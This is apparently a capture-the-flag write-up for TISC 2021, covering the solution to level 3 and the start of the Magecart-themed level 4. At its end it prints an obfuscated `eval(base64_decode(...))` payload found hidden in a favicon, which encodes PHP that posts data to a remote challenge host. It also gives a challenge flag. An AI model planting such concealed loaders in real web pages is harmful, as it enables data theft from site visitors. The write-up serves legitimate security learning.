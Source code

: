 This definitely did not look like the flag. I was going to have to dig deeper into whatever post-processing was being done to the contents of `key.txt`, but since I was using the freeware version of IDA, I could not decompile the relevant section of code, and my attempt at static analysis didn't get me anywhere. What does this stuff even *mean*?

![3 explanation 6](/assets/tisc-2021/3_6.png)

Eventually, I gave up trying to understand the assembly and turned to WinDbg to find out what was actually going on. After some manual stepping-through of the code, I found that the snippet pictured above effectively permuted the byte array in a manner depending on the contents of `key.txt`. Furthermore, only the first 14 bytes of `key.txt` were being used; the fancy magic constants and weird computations were probably the result of a line of code like `x = (x+1)%14`. Was I looking for a 14 character string?

Obviously, the best place to look for such a string would be `2.out`, since it contained lots of random-looking words. While attempting to use regex to search for a string of 14 non-whitespace characters (`\S{14}`), I accidentally typed `\S[14]` instead, which searched for a single non-whitespace character followed by a `1` or `4`. As luck would have it, there were exactly two occurrences of `4` in the file, both within `!t4ttaRRatt4t!`. Quickly glancing at the rest of the file, I concluded that this was the only non-word in the whole file, and it was also 14 characters long... hmm...

![luck 100](/assets/tisc-2021/luck.png)

I put this into `key.txt` and sure enough, it worked:

```console
amarok@ubuntu:~/tisc$ wine 1.out 2.txt
HELLO WORLD
TISC{21232f297a57a5a743894a0e4a801fc3}
```

**Flag (100 points):** `TISC{21232f297a57a5a743894a0e4a801fc3}`

Later on (during level 6), I would realise that the library code was in fact an implementation of RC4.

***

## 4. The Magician's Den

![level 4 flavourtext](/assets/tisc-2021/desc_4a.png)
![level 4 hint](/assets/tisc-2021/desc_4b.png)

Googling about Magecart led me to [this article](https://www.darkreading.com/attacks-breaches/magecart-how-its-attack-techniques-evolved), where the section about card skimming scripts in favicons caught my eye. Unable to find any other hints in the site, I decided to give it a try:

![4 explanation 1](/assets/tisc-2021/4_1.png)

I found the following code in the metadata of the webpage's favicon:

```javascript
eval(base64_decode('JGNoPWN1cmxfaW5pdCgpO2N1cmxfc2V0b3B0KCRjaCxDVVJMT1BUX1VSTCwiaHR0cDovL3MwcHE2c2xmYXVud2J0bXlzZzYyeXptb2RkYXc3cHBqLmN0Zi5zZzoxODkyNi94Y3Zsb3N4Z2J0ZmNvZm92eXdieGRhd3JlZ2pienF0YS5waHAiKTtjdXJsX3NldG9wdCgkY2gsQ1VSTE9QVF9QT1NULDEpO2N1cmxfc2V0b3B0KCRjaCxDVVJMT1BUX1BPU1RGSUVMRFMsIjE0YzRiMDZiODI0ZWM1OTMyMzkzNjI1MTdmNTM4YjI5PUhpJTIwZnJvbSUyMHNjYWRhIik7JHNlcnZlcl9vdXRwdXQ9Y3VybF9leGVjKCRjaCk7'));
```
